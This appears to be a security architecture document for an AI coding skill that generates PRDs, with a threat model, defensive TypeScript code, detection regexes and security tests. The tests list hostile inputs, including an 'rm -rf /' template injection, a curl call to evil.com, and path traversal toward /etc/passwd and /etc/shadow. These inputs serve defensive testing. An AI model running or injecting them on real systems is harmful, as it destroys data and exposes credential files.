

# Security Architecture for Secure Idea-to-PRD Claude Code Skill

## Executive Summary

This document defines a comprehensive security architecture for the secure idea-to-PRD Claude Code skill, addressing all identified vulnerabilities through defense-in-depth principles, input validation frameworks, and AI manipulation defense systems (AIMDS).

### Key Security Objectives

1. **Zero Trust Architecture** - Validate all inputs at every boundary
2. **Defense in Depth** - Multiple security layers prevent single points of failure
3. **AIMDS Integration** - Real-time AI threat detection and mitigation
4. **Secure by Design** - Security built into every component
5. **Claims-Based Authorization** - Fine-grained access control

## Threat Model Analysis

### Attack Surface

| Component | Threat Level | Attack Vectors | Mitigation Priority |
|-----------|-------------|----------------|-------------------|
| **User Input Processing** | Critical | Template injection, prompt manipulation | P0 |
| **File Operations** | High | Path traversal, unrestricted file creation | P0 |
| **Template Engine** | High | Format string injection, code execution | P0 |
| **JSON Processing** | Medium | Deserialization attacks, DoS | P1 |
| **Output Generation** | Medium | Information disclosure, privilege escalation | P1 |

### Vulnerability Analysis

Based on code analysis, the following critical vulnerabilities were identified:

#### V1: Template Injection (CRITICAL)
```python
# VULNERABLE CODE PATTERN
return f"""# AI Context Package: {self.package.product_name}
{user_controlled_content}
"""
```
**Impact**: Remote code execution, data exfiltration
**CVSS**: 9.8 (Critical)

#### V2: Path Traversal (HIGH)
```python
# VULNERABLE CODE PATTERN
filepath = path / filename  # filename from user input
filepath.write_text(content)
```
**Impact**: Arbitrary file write, system compromise
**CVSS**: 8.5 (High)

#### V3: JSON Deserialization (MEDIUM)
```python
# VULNERABLE CODE PATTERN
data = json.load(f)  # No validation
```
**Impact**: DoS, memory exhaustion
**CVSS**: 6.8 (Medium)

## Security Architecture Design

### 1. Input Validation Framework

#### 1.1 Multi-Layer Validation Pipeline

```typescript
interface ValidationPipeline {
  layer1: AIManipulationDetection;  // AIMDS scan <10ms
  layer2: InputSanitization;        // Sanitize dangerous patterns
  layer3: SchemaValidation;         // Enforce data contracts
  layer4: BusinessRuleValidation;   // Domain-specific rules
  layer5: ContextValidation;        // Environment constraints
}
```

#### 1.2 AIMDS Integration Points

```typescript
// Real-time threat detection
const aiDefenseResult = await aimds.scan({
  input: userInput,
  mode: 'thorough',
  patterns: [
    'prompt_injection',
    'template_injection',
    'path_traversal',
    'code_execution',
    'pii_detection'
  ],
  maxLatency: 10 // milliseconds
});

if (!aiDefenseResult.safe) {
  return securityResponse(aiDefenseResult.threats);
}
```

#### 1.3 Input Sanitization Rules

| Input Type | Validation Rules | Sanitization |
|-----------|-----------------|-------------|
| **Product Names** | Alphanumeric + spaces, max 100 chars | HTML encode, remove control chars |
| **Descriptions** | Plain text only, max 1000 chars | Strip HTML/MD, sanitize special chars |
| **File Names** | Filename-safe chars only | Remove path separators, normalize |
| **JSON Data** | Schema validation required | Type coercion, size limits |
| **Template Variables** | Whitelist allowed variables | Escape all user content |

### 2. Secure File Operations Framework

#### 2.1 Safe Path Construction

```typescript
class SecurePathBuilder {
  private readonly ALLOWED_EXTENSIONS = ['.md', '.pseudo', '.json', '.txt'];
  private readonly MAX_PATH_LENGTH = 255;
  private readonly SAFE_OUTPUT_DIR = '/workspace/output';

  buildSafePath(userFilename: string, outputDir: string): Result<string> {
    // 1. Validate output directory is within allowed bounds
    const normalizedDir = path.normalize(outputDir);
    if (!normalizedDir.startsWith(this.SAFE_OUTPUT_DIR)) {
      return Err('Directory traversal attempt detected');
    }

    // 2. Sanitize filename
    const sanitizedName = this.sanitizeFilename(userFilename);
    if (!sanitizedName) {
      return Err('Invalid filename');
    }

    // 3. Validate extension
    const ext = path.extname(sanitizedName);
    if (!this.ALLOWED_EXTENSIONS.includes(ext)) {
      return Err('File extension not allowed');
    }

    // 4. Check path length
    const fullPath = path.join(normalizedDir, sanitizedName);
    if (fullPath.length > this.MAX_PATH_LENGTH) {
      return Err('Path too long');
    }

    // 5. Final security check - no path traversal sequences
    if (fullPath.includes('..') || fullPath.includes('//')) {
      return Err('Path traversal detected');
    }

    return Ok(fullPath);
  }

  private sanitizeFilename(filename: string): string | null {
    // Remove dangerous characters
    const clean = filename
      .replace(/[<>:"/\\|?*\x00-\x1f]/g, '')
      .replace(/^\.+/, '') // No leading dots
      .trim();

    // Validate length and content
    if (clean.length === 0 || clean.length > 200) {
      return null;
    }

    // Ensure it's not a reserved name
    const reserved = ['CON', 'PRN', 'AUX', 'NUL', 'COM1', 'COM2', 'COM3', 'COM4', 'COM5', 'COM6', 'COM7', 'COM8', 'COM9', 'LPT1', 'LPT2', 'LPT3', 'LPT4', 'LPT5', 'LPT6', 'LPT7', 'LPT8', 'LPT9'];
    if (reserved.includes(clean.toUpperCase())) {
      return null;
    }

    return clean;
  }
}
```

#### 2.2 Secure File Write Operations

```typescript
class SecureFileWriter {
  private readonly MAX_FILE_SIZE = 10 * 1024 * 1024; // 10MB
  private readonly WRITE_TIMEOUT = 30000; // 30 seconds

  async writeSecure(filepath: string, content: string): Promise<Result<void>> {
    try {
      // 1. Validate file size
      if (content.length > this.MAX_FILE_SIZE) {
        return Err('File size exceeds limit');
      }

      // 2. Validate content doesn't contain dangerous patterns
      const contentScan = await aimds.scanContent(content);
      if (!contentScan.safe) {
        return Err(`Dangerous content detected: ${contentScan.threats}`);
      }

      // 3. Create secure write context
      const writeContext = {
        path: filepath,
        content: content,
        checksum: crypto.createHash('sha256').update(content).digest('hex'),
        timestamp: new Date().toISOString()
      };

      // 4. Atomic write with verification
      const tempPath = `${filepath}.tmp.${Date.now()}`;
      await fs.writeFile(tempPath, content, 'utf8');

      // 5. Verify written content
      const written = await fs.readFile(tempPath, 'utf8');
      const writtenChecksum = crypto.createHash('sha256').update(written).digest('hex');

      if (writtenChecksum !== writeContext.checksum) {
        await fs.unlink(tempPath);
        return Err('File integrity verification failed');
      }

      // 6. Atomic move to final location
      await fs.rename(tempPath, filepath);

      // 7. Log secure write
      await this.logSecureOperation('file_write', writeContext);

      return Ok(void 0);
    } catch (error) {
      return Err(`Secure write failed: ${error.message}`);
    }
  }
}
```

### 3. Template Security Framework

#### 3.1 Safe Template Engine

```typescript
class SecureTemplateEngine {
  private readonly ALLOWED_VARIABLES = new Set([
    'product_name', 'description', 'timestamp', 'version',
    'bounded_contexts', 'aggregates', 'requirements'
  ]);

  renderSecure(template: string, variables: Record<string, unknown>): Result<string> {
    // 1. Validate template structure
    const templateValidation = this.validateTemplate(template);
    if (!templateValidation.valid) {
      return Err(`Invalid template: ${templateValidation.error}`);
    }

    // 2. Sanitize all variables
    const sanitizedVars = this.sanitizeVariables(variables);

    // 3. Render with sandboxed context
    try {
      const rendered = this.sandboxedRender(template, sanitizedVars);
      return Ok(rendered);
    } catch (error) {
      return Err(`Template render failed: ${error.message}`);
    }
  }

  private validateTemplate(template: string): { valid: boolean; error?: string } {
    // Check for dangerous template patterns
    const dangerousPatterns = [
      /\{\{.*__.*\}\}/,           // Double underscore (Python internals)
      /\{\{.*import.*\}\}/i,      // Import statements
      /\{\{.*eval.*\}\}/i,        // Eval calls
      /\{\{.*exec.*\}\}/i,        // Exec calls
      /\{\{.*subprocess.*\}\}/i,  // Subprocess
      /\{\{.*os\..*\}\}/i,        // OS module
      /\{\{.*file.*\}\}/i,        // File operations
    ];

    for (const pattern of dangerousPatterns) {
      if (pattern.test(template)) {
        return { valid: false, error: `Dangerous pattern detected: ${pattern}` };
      }
    }

    return { valid: true };
  }

  private sanitizeVariables(vars: Record<string, unknown>): Record<string, string> {
    const sanitized: Record<string, string> = {};

    for (const [key, value] of Object.entries(vars)) {
      // Only allow whitelisted variables
      if (!this.ALLOWED_VARIABLES.has(key)) {
        continue;
      }

      // Convert to string and sanitize
      const stringValue = String(value);
      sanitized[key] = this.sanitizeValue(stringValue);
    }

    return sanitized;
  }

  private sanitizeValue(value: string): string {
    return value
      .replace(/[<>&"']/g, (char) => {
        const htmlEntities: Record<string, string> = {
          '<': '&lt;',
          '>': '&gt;',
          '&': '&amp;',
          '"': '&quot;',
          "'": '&#x27;'
        };
        return htmlEntities[char] || char;
      })
      .replace(/[\x00-\x1f\x7f-\x9f]/g, '') // Remove control characters
      .substring(0, 1000); // Limit length
  }

  private sandboxedRender(template: string, variables: Record<string, string>): string {
    // Simple and safe string replacement
    let result = template;
    for (const [key, value] of Object.entries(variables)) {
      const placeholder = `{{${key}}}`;
      result = result.replace(new RegExp(escapeRegExp(placeholder), 'g'), value);
    }
    return result;
  }
}

function escapeRegExp(string: string): string {
  return string.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
}
```

### 4. Trust Boundaries and Data Flow

#### 4.1 Security Zones

```typescript
enum SecurityZone {
  UNTRUSTED = 'untrusted',     // User input
  VALIDATED = 'validated',     // Post-validation
  PROCESSED = 'processed',     // Post-business logic
  SECURE = 'secure'            // Ready for output
}

interface SecurityContext {
  zone: SecurityZone;
  source: string;
  timestamp: Date;
  checksum: string;
  validations: ValidationResult[];
}
```

#### 4.2 Secure Data Flow



### 5. Claude Code Integration Security

#### 5.1 Secure Tool Usage Patterns

```typescript
class SecureClaudeCodeIntegration {

  async secureWrite(content: string, filepath: string): Promise<void> {
    // 1. Pre-write security scan
    const scanResult = await aimds.scanContent(content);
    if (!scanResult.safe) {
      throw new SecurityError(`Content blocked: ${scanResult.threats}`);
    }

    // 2. Validate file path
    const pathResult = this.pathBuilder.buildSafePath(filepath, this.outputDir);
    if (!pathResult.ok) {
      throw new SecurityError(pathResult.error);
    }

    // 3. Use Claude Code Write tool securely
    await Write({
      file_path: pathResult.value,
      content: this.sanitizeContent(content)
    });

    // 4. Post-write verification
    await this.verifyWrittenFile(pathResult.value, content);
  }

  async secureRead(filepath: string): Promise<string> {
    // 1. Validate read path
    const pathResult = this.validateReadPath(filepath);
    if (!pathResult.ok) {
      throw new SecurityError(pathResult.error);
    }

    // 2. Use Claude Code Read tool
    const content = await Read({
      file_path: pathResult.value
    });

    // 3. Scan read content
    const scanResult = await aimds.scanContent(content);
    if (!scanResult.safe) {
      // Log but don't block reads - just warn
      await this.logSecurity('read_threat_detected', {
        path: filepath,
        threats: scanResult.threats
      });
    }

    return content;
  }

  async secureEdit(filepath: string, oldString: string, newString: string): Promise<void> {
    // 1. Validate both strings
    const oldScan = await aimds.scanContent(oldString);
    const newScan = await aimds.scanContent(newString);

    if (!newScan.safe) {
      throw new SecurityError(`New content blocked: ${newScan.threats}`);
    }

    // 2. Use Claude Code Edit tool
    await Edit({
      file_path: filepath,
      old_string: oldString,
      new_string: this.sanitizeContent(newString)
    });
  }

  private sanitizeContent(content: string): string {
    return content
      .replace(/[\x00-\x08\x0B\x0C\x0E-\x1F\x7F]/g, '') // Remove control chars
      .replace(/\r\n/g, '\n') // Normalize line endings
      .substring(0, 1000000); // Reasonable size limit
  }
}
```

#### 5.2 Input Validation for Claude Code

```typescript
interface ClaudeCodeValidationRules {
  write: {
    maxFileSize: number;
    allowedExtensions: string[];
    pathValidation: (path: string) => boolean;
    contentSanitization: (content: string) => string;
  };
  edit: {
    maxStringLength: number;
    dangerousPatterns: RegExp[];
    sanitization: (str: string) => string;
  };
  read: {
    pathTraversalCheck: boolean;
    maxFileSize: number;
    scanContent: boolean;
  };
}

const CLAUDE_CODE_VALIDATION: ClaudeCodeValidationRules = {
  write: {
    maxFileSize: 10 * 1024 * 1024, // 10MB
    allowedExtensions: ['.md', '.json', '.txt', '.pseudo', '.feature'],
    pathValidation: (path) => {
      return path.startsWith('/workspaces/jlmaworkspace/') &&
             !path.includes('..') &&
             !path.includes('//');
    },
    contentSanitization: (content) => sanitizeContent(content)
  },
  edit: {
    maxStringLength: 100000, // 100KB
    dangerousPatterns: [
      /eval\s*\(/i,
      /exec\s*\(/i,
      /subprocess/i,
      /os\.system/i,
      /__import__/i
    ],
    sanitization: (str) => sanitizeContent(str)
  },
  read: {
    pathTraversalCheck: true,
    maxFileSize: 50 * 1024 * 1024, // 50MB
    scanContent: true
  }
};
```

### 6. Error Handling and Security Logging

#### 6.1 Secure Error Responses

```typescript
class SecurityErrorHandler {

  handleSecurityError(error: SecurityError, context: SecurityContext): SecurityResponse {
    // 1. Log security event
    this.logSecurityEvent({
      type: 'security_violation',
      error: error.type,
      context: context,
      timestamp: new Date(),
      severity: this.calculateSeverity(error)
    });

    // 2. Return safe error response (no sensitive info)
    return {
      success: false,
      error: this.getSafeErrorMessage(error.type),
      requestId: context.requestId
    };
  }

  private getSafeErrorMessage(errorType: string): string {
    const safeMessages: Record<string, string> = {
      'template_injection': 'Invalid template format',
      'path_traversal': 'Invalid file path',
      'content_violation': 'Content does not meet security requirements',
      'size_limit': 'Content size exceeds limits',
      'validation_failed': 'Input validation failed'
    };

    return safeMessages[errorType] || 'Security validation failed';
  }
}
```

#### 6.2 Security Event Logging

```typescript
interface SecurityEvent {
  timestamp: Date;
  type: 'threat_detected' | 'validation_failed' | 'access_denied' | 'suspicious_activity';
  severity: 'low' | 'medium' | 'high' | 'critical';
  source: string;
  details: {
    threatType?: string;
    inputSample?: string; // Truncated/sanitized
    mitigationAction?: string;
    userAgent?: string;
    ipAddress?: string;
  };
  context: SecurityContext;
}

class SecurityLogger {
  async logEvent(event: SecurityEvent): Promise<void> {
    // 1. Sanitize sensitive data before logging
    const sanitizedEvent = this.sanitizeEvent(event);

    // 2. Store in secure log
    await this.writeSecureLog(sanitizedEvent);

    // 3. Alert on high severity
    if (event.severity === 'critical' || event.severity === 'high') {
      await this.sendSecurityAlert(sanitizedEvent);
    }

    // 4. Update threat metrics
    await this.updateThreatMetrics(event.type);
  }

  private sanitizeEvent(event: SecurityEvent): SecurityEvent {
    return {
      ...event,
      details: {
        ...event.details,
        inputSample: event.details.inputSample?.substring(0, 100) + '...',
        // Remove any PII or sensitive data
      }
    };
  }
}
```

### 7. AIMDS Integration Architecture

#### 7.1 Real-Time Threat Detection Pipeline

```typescript
class AIMDSThreatDetection {
  private readonly SCAN_TIMEOUT = 10; // milliseconds
  private readonly THREAT_PATTERNS = [
    'prompt_injection',
    'template_injection',
    'path_traversal',
    'code_execution',
    'pii_detection',
    'jailbreak_attempt'
  ];

  async scanInput(input: string, context: SecurityContext): Promise<ThreatScanResult> {
    try {
      // 1. Quick pattern matching (<1ms)
      const quickScan = this.quickPatternScan(input);
      if (quickScan.blocked) {
        return {
          safe: false,
          threats: quickScan.threats,
          confidence: 1.0,
          scanTimeMs: quickScan.timeMs
        };
      }

      // 2. AIMDS deep scan (<10ms)
      const scanResult = await Promise.race([
        this.aimdsDeepScan(input),
        this.timeoutPromise(this.SCAN_TIMEOUT)
      ]);

      // 3. Behavioral analysis if needed
      if (scanResult.suspicious) {
        const behaviorResult = await this.behavioralAnalysis(input, context);
        scanResult.behaviorScore = behaviorResult.score;
      }

      return scanResult;
    } catch (error) {
      // Fail secure - if scanning fails, treat as threat
      return {
        safe: false,
        threats: ['scan_failure'],
        confidence: 0.5,
        scanTimeMs: this.SCAN_TIMEOUT,
        error: error.message
      };
    }
  }

  private quickPatternScan(input: string): { blocked: boolean; threats: string[]; timeMs: number } {
    const start = performance.now();
    const threats: string[] = [];

    // High-confidence dangerous patterns
    const dangerousPatterns = [
      /\{\{.*eval.*\}\}/i,
      /\{\{.*exec.*\}\}/i,
      /\.\.[\/\\]/,
      /\x00/,
      /__import__/i,
      /subprocess/i
    ];

    for (const pattern of dangerousPatterns) {
      if (pattern.test(input)) {
        threats.push(`pattern_${pattern.source}`);
      }
    }

    return {
      blocked: threats.length > 0,
      threats,
      timeMs: performance.now() - start
    };
  }

  private async aimdsDeepScan(input: string): Promise<ThreatScanResult> {
    // Call actual AIMDS service
    const result = await aimdsClient.scan({
      input: input,
      mode: 'thorough',
      patterns: this.THREAT_PATTERNS
    });

    return {
      safe: result.safe,
      threats: result.threats,
      confidence: result.confidence || 0.9,
      scanTimeMs: result.detectionTimeMs,
      suspicious: result.confidence < 0.8
    };
  }
}
```

#### 7.2 Adaptive Mitigation Strategy

```typescript
class AdaptiveMitigation {
  private mitigationHistory: Map<string, MitigationResult[]> = new Map();

  async mitigate(threat: ThreatScanResult, input: string): Promise<MitigationResult> {
    // 1. Select mitigation strategy based on threat type and history
    const strategy = this.selectStrategy(threat);

    // 2. Apply mitigation
    const result = await this.applyMitigation(strategy, threat, input);

    // 3. Learn from results (meta-learning)
    await this.recordMitigationOutcome(threat, strategy, result);

    return result;
  }

  private selectStrategy(threat: ThreatScanResult): MitigationStrategy {
    const strategies = [
      'block',           // Block completely
      'sanitize',        // Clean and allow
      'sandbox',         // Execute in sandbox
      'quarantine',      // Store for analysis
      'challenge',       // Request verification
      'downgrade',       // Reduce privileges
      'monitor'          // Allow but watch closely
    ];

    // Use meta-learning to select best strategy
    const history = this.mitigationHistory.get(threat.threats[0]) || [];
    const bestStrategy = this.metaLearning.selectBestStrategy(threat, history);

    return bestStrategy;
  }

  private async recordMitigationOutcome(
    threat: ThreatScanResult,
    strategy: MitigationStrategy,
    result: MitigationResult
  ): Promise<void> {
    const outcome = {
      threat,
      strategy,
      result,
      timestamp: new Date(),
      effectiveness: result.success ? 1.0 : 0.0
    };

    // Store in history for meta-learning
    const key = threat.threats[0];
    const history = this.mitigationHistory.get(key) || [];
    history.push(outcome);
    this.mitigationHistory.set(key, history.slice(-100)); // Keep last 100

    // Update strange-loop meta-learner
    await this.metaLearning.updateStrategy(outcome);
  }
}
```

### 8. Performance and Monitoring

#### 8.1 Security Performance Metrics

```typescript
interface SecurityMetrics {
  threatDetectionLatency: number; // milliseconds
  mitigationEffectiveness: number; // 0-1 success rate
  falsePositiveRate: number; // 0-1 rate
  throughput: number; // requests/second
  memoryUsage: number; // bytes
  adaptiveLearningAccuracy: number; // 0-1 accuracy
}

class SecurityMonitor {
  private metrics: SecurityMetrics = {
    threatDetectionLatency: 0,
    mitigationEffectiveness: 0,
    falsePositiveRate: 0,
    throughput: 0,
    memoryUsage: 0,
    adaptiveLearningAccuracy: 0
  };

  async updateMetrics(): Promise<void> {
    this.metrics = {
      threatDetectionLatency: await this.measureDetectionLatency(),
      mitigationEffectiveness: await this.calculateMitigationSuccess(),
      falsePositiveRate: await this.calculateFalsePositives(),
      throughput: await this.measureThroughput(),
      memoryUsage: process.memoryUsage().heapUsed,
      adaptiveLearningAccuracy: await this.evaluateLearningAccuracy()
    };

    // Alert on performance degradation
    if (this.metrics.threatDetectionLatency > 50) { // >50ms
      await this.alertPerformance('High detection latency');
    }
  }
}
```

## Implementation Checklist

### Phase 1: Core Security Framework (Week 1-2)
- [ ] Implement InputValidationFramework
- [ ] Deploy AIMDS threat detection pipeline
- [ ] Create SecurePathBuilder with comprehensive validation
- [ ] Implement SecureFileWriter with atomic operations
- [ ] Build SecureTemplateEngine with sandboxing

### Phase 2: Claude Code Integration (Week 3)
- [ ] Implement SecureClaudeCodeIntegration wrapper
- [ ] Add validation rules for Write/Edit/Read operations
- [ ] Create secure error handling system
- [ ] Implement security event logging

### Phase 3: Advanced Defense (Week 4)
- [ ] Deploy adaptive mitigation system
- [ ] Implement behavioral analysis
- [ ] Add meta-learning feedback loop
- [ ] Create security metrics dashboard

### Phase 4: Testing and Validation (Week 5)
- [ ] Penetration testing of all components
- [ ] Performance testing under load
- [ ] Validation of AIMDS integration
- [ ] Security review and audit

## Security Testing Strategy

### 1. Automated Security Testing

```typescript
describe('Security Framework', () => {
  test('Template Injection Defense', async () => {
    const maliciousInputs = [
      '{{__import__("os").system("rm -rf /")}}',
      '{{eval("malicious_code")}}',
      '{{subprocess.run(["curl", "evil.com"])}}',
      '{{open("/etc/passwd").read()}}'
    ];

    for (const input of maliciousInputs) {
      const result = await securityFramework.validateInput(input);
      expect(result.safe).toBe(false);
      expect(result.threats).toContain('template_injection');
    }
  });

  test('Path Traversal Defense', async () => {
    const maliciousPaths = [
      '../../../etc/passwd',
      '..\\windows\\system32\\config\\sam',
      '/etc/shadow',
      'C:\\Windows\\System32\\drivers\\etc\\hosts'
    ];

    for (const path of maliciousPaths) {
      const result = securePathBuilder.buildSafePath(path, outputDir);
      expect(result.ok).toBe(false);
    }
  });
});
```

### 2. AIMDS Validation Testing

```bash
# Test AIMDS integration
npx claude-flow@v3alpha security defend --input "{{eval('malicious')}}" --mode thorough

# Behavioral analysis testing
npx claude-flow@v3alpha security behavior --test-mode --patterns injection

# Performance benchmarking
npx claude-flow@v3alpha security benchmark --duration 60s --concurrency 100
```

## Compliance and Governance

### Security Standards Compliance
- **OWASP Top 10** - All vulnerabilities addressed
- **NIST Cybersecurity Framework** - Identify, Protect, Detect, Respond, Recover
- **ISO 27001** - Information security management
- **GDPR** - Data protection and privacy

### Security Review Process
1. **Daily** - Automated security scans
2. **Weekly** - Security metrics review
3. **Monthly** - Threat model updates
4. **Quarterly** - Penetration testing
5. **Annually** - Security architecture review

## Conclusion

This security architecture provides comprehensive protection against all identified vulnerabilities through:

1. **Multi-layer validation** with AIMDS integration
2. **Secure-by-design** file operations and template processing
3. **Adaptive threat mitigation** with meta-learning
4. **Defense-in-depth** across all system boundaries
5. **Continuous monitoring** and improvement

The implementation prioritizes security without sacrificing usability, ensuring the idea-to-PRD skill remains both secure and functional for production use.

---

**Document Version**: 1.0
**Last Updated**: 2026-02-11
**Security Classification**: Internal Use
**Review Cycle**: Quarterly
**Next Review**: 2026-05-11